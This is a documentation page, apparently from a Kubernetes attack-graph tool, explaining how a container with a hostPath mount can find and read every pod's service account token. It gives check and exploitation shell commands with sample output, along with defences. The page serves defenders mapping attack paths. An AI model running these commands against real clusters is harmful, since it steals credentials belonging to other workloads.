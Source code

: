 <!--
id: EXPLOIT_HOST_TRAVERSE
name: "Steal service account token through kubelet host mount"
mitreAttackTechnique: T1552 - Unsecured Credentials
mitreAttackTactic: TA0006 - Credential Access
-->

# EXPLOIT_HOST_TRAVERSE

This attack represents the ability to steal a K8s API token from a container via access to a mounted parent volume of the `/var/lib/kubelet/pods` directory.

| Source                                    | Destination                           | MITRE                            |
| ----------------------------------------- | ------------------------------------- |----------------------------------|
| [Volume](../vertices/VOLUME.md) | [Volume](../vertices/VOLUME.md) | [Unsecured Credentials, T1552](https://attack.mitre.org/techniques/T1552/) |

## Details

An attacker in a container with access to the `/var/lib/kubelet/pods` directory or any parent directory of the node via a `hostPath` mount, even readonly, can steal the serviceaccount access tokens of all running pods to perform actions in the K8s API. 

## Prerequisites

A volume containing K8s API tokens is mounted into a container. The canonical case is a node root filesystem mounted readonly via a host path volume mount.

## Checks

Check for mounted directories that contain the service account token paths:

```bash
# The service account tokens are tmpfs mounts themselves so it is very apparent when they are present
cat /proc/self/mounts

# ...
/dev/vda1 /hostpods ext4 ro,relatime,discard 0 0
tmpfs /hostpods/063c7aae-1965-4824-b4f5-a8e7cdc2d224/volumes/kubernetes.io~projected/kube-api-access-zhzgh tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/648e72af-34a8-4be6-8e7a-9cfac7e7fd94/volumes/kubernetes.io~projected/kube-api-access-hkh28 tmpfs rw,relatime,size=51200k 0 0
tmpfs /hostpods/b8a7238c-83eb-4392-b055-ad08f8b8a218/volumes/kubernetes.io~projected/kube-api-access-xl5fz tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/5edf50d2-747c-45b2-8b40-210f1bfee866/volumes/kubernetes.io~projected/kube-api-access-2l9sx tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/f80874b0-1a52-4175-9705-550b75743adf/volumes/kubernetes.io~projected/kube-api-access-8ms4p tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/2e2811f3-cfb4-41ea-ae51-8e337357e0d0/volumes/kubernetes.io~projected/kube-api-access-7p2hf tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/37d46741-de8b-45b3-a0a4-874529bb4032/volumes/kubernetes.io~projected/kube-api-access-g8wqm tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/05ae5550-ac58-47a3-b466-c09944240062/volumes/kubernetes.io~projected/kube-api-access-pdqmc tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/3a55670f-a784-4d3c-8231-5bf90c54fc87/volumes/kubernetes.io~projected/kube-api-access-2bf8s tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/b40f8657-5a06-49ed-9128-b807de3281e5/volumes/kubernetes.io~projected/kube-api-access-hjbzn tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/4eb7074e-133f-4ecc-8fa4-a686cf46ba6d/volumes/kubernetes.io~projected/kube-api-access-wqsqv tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/23dab617-9d86-4658-823b-12aaab1f0edc/volumes/kubernetes.io~projected/kube-api-access-xd5fl tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/300cbaef-f0aa-441b-b22d-154bfa31901a/volumes/kubernetes.io~projected/kube-api-access-5xwr4 tmpfs rw,relatime,size=15340756k 0 0
tmpfs /hostpods/e949b9f2-304b-4664-93e5-d0ca79d69448/volumes/kubernetes.io~projected/kube-api-access-xrbr4 tmpfs rw,relatime,size=15340756k 0 0
# ...
```

## Exploitation

If all (or part of) the host filesystem is mounted (/host in our example), steal access tokens for ALL pods running on the node:

```bash
ls /host/var/lib/kubelet/pods/0dc76586-c18c-4db6-b5f2-019f270d3621
# containers  etc-hosts  plugins	volume-subpaths  volumes

find /host/var/lib/kubelet/pods/ -name token -type l 2>/dev/null
#/host/var/lib/kubelet/pods/5a9fc508-8410-444a-bf63-9f11e5979bee/volumes/kubernetes.io~projected/kube-api-access-225d6/token
#/host/var/lib/kubelet/pods/a1176593-34a2-43e6-8bdd-ed10fa148fe7/volumes/kubernetes.io~projected/kube-api-access-ng6px/token
#/host/var/lib/kubelet/pods/10b90d62-6b16-4aa7-9e72-75f18dcca5a8/volumes/kubernetes.io~projected/kube-api-access-j7dsp/token
#/host/var/lib/kubelet/pods/dfbf38ad-2e92-44e0-b05b-8859350b6ea5/volumes/kubernetes.io~projected/kube-api-access-c89ff/token
```

See [IDENTITY_ASSUME](./IDENTITY_ASSUME.md#exploitation) for how to use a captured token.

## Defences

### Monitoring

+ Monitor for access to well-known K8s secrets paths from unusual processes.

### Implement security policies

Use a pod security policy or admission controller to prevent or limit the creation of pods with a `hostPath` mount of parents of `/var/lib/kubelet/pods` or other sensitive locations.

### Prevent service account token automounting

When a pod is being created, it automatically mounts a service account (the default is default service account in the same namespace). Not every pod needs the ability to access the API from within itself.

From version 1.6+ it is possible to prevent *automounting* of serviceaccount tokens on pods using:

```yaml
apiVersion: v1
kind: ServiceAccount
metadata:
  name: sa1
automountServiceAccountToken: false
```

## Calculation

+ [ExploitHostTraverseToken](../../pkg/kubehound/graph/edge/exploit_host_traverse_token.go)

## References:

+ [The Path Less Traveled: Abusing Kubernetes Defaults (Video)](https://www.youtube.com/watch?v=HmoVSmTIOxM)
+ [The Path Less Traveled: Abusing Kubernetes Defaults (GitHub)](https://github.com/mauilion/blackhat-2019)
+ [Securing Kubernetes Clusters by Eliminating Risky Permissions](https://www.cyberark.com/resources/threat-research-blog/securing-kubernetes-clusters-by-eliminating-risky-permissions)

